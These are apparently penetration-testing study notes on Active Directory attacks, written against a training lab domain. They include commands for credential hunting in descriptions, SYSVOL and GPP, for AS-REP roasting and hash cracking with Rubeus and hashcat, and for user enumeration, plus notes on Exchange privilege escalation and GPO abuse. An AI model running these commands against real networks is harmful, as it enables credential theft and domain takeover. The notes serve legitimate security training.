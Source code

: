 

## Exchange Weaknesses:
- Groups often have lots of privileges in Exchange, and can be utilized for privilege escalation if understood properly.

"**Exchange Windows Permissions**": Members can write to the DACL, adding themselves to **DCSync** privileges.

"**Organizational Management**": Effectively the "Domain Admins" of Exchange, can access all the mailboxes of all domain users.

**Dumping credentials from memory on a domain controller** will produce lots of cleartext credentials due to users logging in to Outlook Web Access (OWA) and the server caching their credentials.

## PrivExchange attack
-> A weakness that allows a domain user with a mailbox to get the exchange server to authenticate to any host over HTTP.


## MS14-068 (CVE‑2014‑6324)
Allows a user to force a Privilege Attribute Certificate (PAC) to authenticate to the KDC as an administrator

## Sniffing LDAP credentials
Sometimes printers will have stored credentials. Some printers have a 'test connection' functionality where we can point the connection back to our attacker machine and gather creds from the printer that way. (setup a netcat listener on port 389)

## Enumerating DNS Records:
More thorough enumeration of DNS records can give us better insight into the domain.

We can use a tool (with valid domain creds) such as `adidnsdump`
```shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

## What is LDAP?
Phonebook. Store user information and authentication.

Map out your organization.

LDAP -> AD
OpenLDAP -> Linux

LDAP Provides the *information* about what services a user can access, but does not actually enforce that access. (provides the data to systems that do enforce)

**Rather than having 500 servers on a big network that contain a database to authenticate individuals**, an LDAP server can be used to centralize that authentication.


## Password in Description Field
Utilize Powerview `Get-DomainUser` module to find sensitive information in the description field of AD users.
```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

## PASSWD_NOTREQD Field
If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).
````powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
````

## Credentials in SMB Shares and SYSVOL Scripts

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

## Group Policy Preferences (GPP) Passwords

Sensitive data can be stored on the SYSVOL share
```shell

 crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2         -M gpp_autologin
# Look for exposed credentials for a machine or user that automatically logs on
```

## ASREPRoasting
-> Obtain TGTs for any account that has the `do not require Kerberos pre-authentication`

> The success of this attack depends on the account having a relatively weak password.

- **Kerberoasting** = crack service account credentials via SPN service tickets.
- **AS-REP Roasting** = crack user passwords directly by exploiting accounts without pre-authentication.

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
# Request the hash of the ASRepRoastable user
```

==Crack the hash offline with hashcat==

```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```


### Kerbrute
-> Will automatically retrieve the AS-REP for any sers found that do not require Kerberos pre-authentication.
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Get-NUsers.py
Can also hunt for users that are vulnerable to AS-REP attacks
```shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

## GPO abuse:
GPO's allow for fine grain control over permissions, but can be complex and can lead to misconfigurations that can be compromised by attackers. These attacks can be used to:
1. Add additional privileges to users
2. Add a local admin user to one or more hosts
3. Create an immediate scheduled task

```powershell
Get-DomainGPO |select displayname
# Enumerate GPO names with PowerView
```

